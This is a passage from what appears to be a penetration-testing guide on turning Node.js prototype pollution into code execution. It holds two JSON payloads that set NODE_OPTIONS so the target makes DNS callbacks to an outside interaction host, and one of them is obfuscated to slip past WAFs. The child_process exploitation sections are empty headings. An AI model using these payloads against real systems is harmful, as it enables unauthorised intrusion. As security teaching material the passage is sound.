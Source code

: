 ## DNS Interaction

Using the following payloads it's possible to abuse the NODE_OPTIONS env var we have discussed previously and detect if it worked with a DNS interaction:

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=id.oastify.com"
  }
}
```

Or, to avoid WAFs asking for the domain:

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=id\"\".oastify\"\".com"
  }
}
```

## PP2RCE vuln child_process functions

In this section where are going to analyse **each function from `child_process`** to execute code and see if we can use any technique to force that function to execute code:

<details><summary><code>exec</code> exploitation</summary></details>

<details><summary><strong><code>execFile</code> exploitation</strong></summary></details>

<details><summary><code>fork</code> exploitation</summary></details>

<details><summary><strong><code>spawn</code> exploitation</strong></summary></details>

<details><summary><strong><code>execFileSync</code> exploitation</strong></summary></details>

<details><summary><strong><code>execSync</code> exploitation</strong></summary></details>

<details><summary><strong><code>spawnSync</code> exploitation</strong></summary></details>

## Forcing Spawn

In the previous examples you saw how to trigger the gadget a functionality that **calls `spawn`** needs to be **present** (all methods of **`child_process`** used to execute something calls it). In the previous example that was **part of the the code**, but what if the code **isn't** calling it.

<br>

### Controlling a require file path
